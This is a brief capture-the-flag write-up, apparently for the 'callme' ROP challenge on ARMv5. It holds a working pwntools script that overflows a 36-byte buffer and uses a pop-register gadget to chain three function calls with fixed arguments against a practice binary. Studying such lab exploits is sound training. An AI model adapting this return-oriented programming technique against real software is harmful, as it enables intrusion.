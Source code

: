 
# ARMv5 (32 bit) architecture

The main difference here is that we need to set the LR register before calling the function, so when the function return it return to the
address stored into the LR register.

In arm LR is link register used to hold the return address for a function call.

```python
from pwn import *
context.binary = elf = ELF('./callme_armv5')

''' GADGET
0x00010870      07c0bde8       pop {r0, r1, r2, lr, pc}
'''

pop_r0_r1_r2_lr_pc = 0x00010870

callme_one = elf.sym['callme_one']
callme_two = elf.sym['callme_two']
callme_three = elf.sym['callme_three']
pwnme = elf.symbols['pwnme']

offset = 36


arg = p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)
payload1 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_one)
payload2 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_two)  
payload3 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_three) 

p = elf.process()
#p = gdb.debug(elf.path)

p.recv()

p.sendline(payload1)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload2)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload3)

log.info(p.recvall())
```

# mipsel (32 bit) architecture

